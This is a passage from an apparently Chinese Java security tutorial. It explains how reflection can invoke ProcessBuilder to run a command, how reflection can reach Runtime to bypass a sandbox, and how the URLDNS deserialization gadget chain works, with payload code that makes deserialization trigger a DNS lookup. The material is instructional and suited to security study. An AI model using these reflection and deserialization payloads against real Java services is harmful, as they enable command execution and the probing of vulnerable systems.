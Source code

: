 ![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202108172216070.png-water_print](assets/1699411738-94c07cfbf22ab62dbd92d99e47941393.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202108172216070.png-water_print")

传给 `ProcessBuilder` 的也是一个可变长参数，二者叠加为一个二维数组，所以整个 Payload 如下:

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>``` | ```java<br>Class clazz = Class.forName("java.lang.ProcessBuilder");<br><br>clazz.getMethod("start").invoke(clazz.getConstructor(String[].class).newInstance(new String[][]{{"open", "/System/Applications/Calculator.app"}}));<br>``` |

### [](#37-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E4%B8%8E%E5%8F%8D%E5%B0%84)3.7 反序列化漏洞与反射

在安全研究中，使⽤反射的⼀⼤⽬的，就是绕过某些沙盒。比如，上下文中如果只有 Integer 类型的数字，如何获取到可以执行命令的 Runtime 类：

比如可以这样（伪代码）：`1.getClass().forName("java.lang.Runtime")`

## [](#4-dnsurl-gadget-%E5%88%86%E6%9E%90)4 DNSURL gadget 分析

### [](#41-%E8%B0%83%E7%94%A8%E9%93%BE)4.1 调用链

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>``` | ```fallback<br> *     HashMap.readObject()<br> *       HashMap.putVal()<br> *         HashMap.hash()<br> *           URL.hashCode()<br>``` |

payload：

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>``` | ```java<br>HashMap ht = new HashMap(); <br>URL u = new URL("dnslog");<br>// 这里在序列化时不发送请求，防止在反序列化探测时误判<br>Class c = u.getClass();<br>Field f = c.getDeclaredField("hashCode");<br>f.setAccessible(true);<br>f.set(u, 1234);<br>ht.put(u, "Geekby");<br>// 把 hashcode 改为 -1，还原<br>f.set(u, -1);<br>``` |

### [](#42-%E5%88%86%E6%9E%90)4.2 分析

首先查看 HashMap 的 ReadObject 方法

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202108252101230.png-water_print](assets/1699411738-9f2f21013d801277187a328d8317de17.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202108252101230.png-water_print")
